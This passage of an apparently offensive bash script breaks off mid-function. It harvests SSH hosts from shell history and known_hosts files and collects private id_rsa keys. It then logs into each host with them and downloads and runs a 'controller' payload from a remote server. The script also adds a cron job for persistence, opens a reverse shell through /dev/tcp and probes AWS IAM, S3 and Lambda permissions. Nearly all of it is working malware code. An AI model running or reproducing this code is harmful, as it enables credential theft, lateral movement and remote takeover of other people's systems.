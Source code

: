 ```
                      grep -E "(ssh|scp)" ~/.bash_history /home/*/.bash_history /root/.bash_history 2>/dev/null | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}|\b(?:[a-zA-Z0-9-]+\.)+[a-zA-Z]{2,}\b";
                      grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}|\b(?:[a-zA-Z0-9-]+\.)+[a-zA-Z]{2,}\b" ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts 2>/dev/null |
                      grep -vw 127.0.0.1 | sort -u)

        local USERS=$(echo "root";
                      find ~/ /root /home -maxdepth 2 -name '.ssh' | xargs -I {} find {} -name 'id_rsa' | awk -F'/' '{print $3}' | grep -v ".ssh" | sort -u)

       for key in $KEYS; do
            chmod 400 "$key"
            for user in $USERS; do

              echo "$user"
                   for host in $HOSTS; do
                     ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i "$key" "$user@$host" "(curl -u $USERNAME:$PASSWORD -o /dev/shm/controller http://$SERVER/files/controller && bash /dev/shm/controller)"
                done
            done
        done
    }

    find_and_execute
}

create_persistence() {
(crontab -l 2>/dev/null; echo "0 0 * * * bash $SCRIPT_PATH") | crontab -
}

create_shell () {
    echo "Creating a reverse shell"
    /bin/bash -i >& /dev/tcp/"$SERVER"/"$PORT" 0>&1
}

# Check role policies
check_role_vuln() {
    local ROLE_NAME=$(aws sts get-caller-identity --query "Arn" --output text | awk -F'/' '{print $2}')

    # List attached policies for the given role
    attached_policies=$(aws iam list-attached-role-policies --role-name "$ROLE_NAME" --query 'AttachedPolicies[*].PolicyName' --output text)

    # Check if the user has IAM permissions to list policies
    if [[ $? -eq 0 ]]; then
        # If the user has IAM permissions, check attached policies
        attached_policies_array=($attached_policies)
        for policy in "${attached_policies_array[@]}"; do
            for vuln_policy in "${VULNERABLE_POLICIES[@]}"; do
                if [[ "$policy" == "$vuln_policy" ]]; then
                    return 0
                fi
            done
        done
    else
        aws s3 ls
        if [[ $? -eq 0 ]]; then
            return 0
        else
            aws lambda list-functions
            if [[ $? -eq 0 ]]; then
```